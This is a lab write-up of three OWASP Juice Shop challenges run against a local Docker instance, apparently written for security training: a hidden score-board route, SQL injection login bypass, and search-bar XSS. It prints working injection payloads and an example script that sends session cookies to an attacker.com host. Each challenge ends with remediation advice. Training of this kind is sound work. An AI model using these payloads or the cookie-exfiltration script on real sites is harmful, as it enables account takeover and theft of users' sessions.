




# OWASP Juice Shop: Web Vulnerability Writeup

> **Author:** Mohamed Amin
> **Date:** June 2026
> **Target:** OWASP Juice Shop (local Docker instance)
> **Tool:** Browser, Developer Tools
> **Platform:** http://localhost:3000

---

## What is OWASP Juice Shop?

OWASP Juice Shop is an intentionally vulnerable web application created by
OWASP for security training and awareness. It contains dozens of real web
vulnerabilities that you can legally practice exploiting in a safe environment.
It is used by security professionals, developers, and students worldwide to
learn about web application security.

Running it locally via Docker means everything stays on your own machine.
No real systems are affected.

```
docker run -p 3000:3000 bkimminich/juice-shop
```

---

## Challenge 1: Finding the Hidden Score Board

### What the challenge is

The score board is a hidden page that shows all available challenges. It is
not linked anywhere on the site. You need to find it yourself by analyzing
the application's source code.

### How I found it

Opened browser developer tools with F12, navigated to the Sources tab, and
searched through the main JavaScript bundle for the string "score-board".
Found the route defined in the application code, confirming the path exists
but is intentionally hidden from navigation menus.

Navigated directly to:
```
http://localhost:3000/#/score-board
```



### What this tells us from a security perspective

The application relies on the user not knowing the URL exists. This is called
security through obscurity and it is not a real security control. Any attacker
who spends a few minutes analyzing the JavaScript source code will find hidden
routes, admin panels, and internal endpoints.

Security recommendation: hidden pages still need proper authentication and
authorization checks. Never rely on a URL being unknown as a security measure.

OWASP category: Security through Obscurity

---

## Challenge 2: Admin Login via SQL Injection

### What the challenge is

Log in as the administrator without knowing the password by exploiting a SQL
injection vulnerability in the login form.

### How the attack works

The login form takes a username and password and the backend builds a SQL
query like this:

```sql
SELECT * FROM users WHERE email = 'input' AND password = 'input'
```

If the application does not sanitize the input, an attacker can inject SQL
code directly into the query.

### The payload

In the email field I typed:

```
' OR 1=1 --
```

The query becomes:

```sql
SELECT * FROM users WHERE email = '' OR 1=1 --' AND password = ''
```

OR 1=1 is always true so the WHERE condition is always satisfied.
The double dash comments out everything after it including the password check.
The database returns the first user which is the administrator.



### Result

Logged in successfully as admin@juice-sh.op without knowing the password.



### What this tells us from a security perspective

The root cause is that the application concatenated user input directly into
a SQL query without sanitizing or escaping it first. The app trusted the user.

Fix: use parameterized queries or prepared statements. Never build SQL queries
by concatenating user input directly. Example in Python:

```python
# Vulnerable
query = "SELECT * FROM users WHERE email = '" + email + "'"

# Secure
query = "SELECT * FROM users WHERE email = ?"
cursor.execute(query, (email,))
```

OWASP category: Injection (number 3 in OWASP Top 10)

---

## Challenge 3: XSS in the Search Bar

### What the challenge is

Inject a script into the search bar that executes in the browser, demonstrating
a Cross-Site Scripting (XSS) vulnerability.

### How the attack works

The search bar takes input and displays it on the search results page. If the
application does not sanitize the input before rendering it, anything typed
into the search bar gets interpreted as HTML and JavaScript by the browser.

### The payload

In the search bar I typed:

```html
<iframe src="javascript:alert('XSS')">
```

This injects an iframe element into the page. The src attribute executes
JavaScript directly, triggering an alert popup.

### Result

The browser executed the injected script and displayed an alert popup with
the text "XSS". An empty iframe also rendered in the search results area,
confirming the HTML was interpreted by the browser rather than displayed as
plain text.



### What this tells us from a security perspective

The root cause is that the application rendered user input directly as HTML
without escaping special characters first. The browser had no way to know
the difference between legitimate page content and injected malicious code.

In a real attack scenario the payload would not be a simple alert. It would
be something like this:

```html
<script>
document.location='http://attacker.com/steal?cookie='+document.cookie
</script>
```

This would silently steal the session cookie of every user who visits the
affected page and send it to the attacker's server. The attacker can then
use that cookie to log in as the victim without needing their password.

Fix: escape all user input before displaying it on a page. Convert special
characters like < and > into their HTML entities &lt; and &gt; so they
display as text instead of being interpreted as HTML.

OWASP category: XSS (listed under Injection in OWASP Top 10 2021)

---

## Summary

| Challenge | Vulnerability | OWASP Category | Fixed by |
|---|---|---|---|
| Hidden score board | Security through obscurity | Security Misconfiguration | Proper auth on all routes |
| Admin login bypass | SQL Injection | Injection | Parameterized queries |
| XSS in search bar | Cross-Site Scripting | Injection | Input sanitization |

---

## Key Takeaways

All three vulnerabilities share the same root cause: the application trusted
user input without validating or sanitizing it first.

SQLi trusted input going into a database query.
XSS trusted input going into a rendered webpage.
Security through obscurity trusted that users would not look at the source code.

The fix in all cases is the same principle: never trust user input. Always
validate, sanitize, and apply proper authorization regardless of whether you
think the user knows the endpoint exists.

These are not theoretical vulnerabilities. SQLi and XSS consistently appear
in real penetration tests against production applications and are in the OWASP
Top 10 for a reason.

---

*Tool: OWASP Juice Shop v17 via Docker | Browser: Chrome | Platform: localhost*
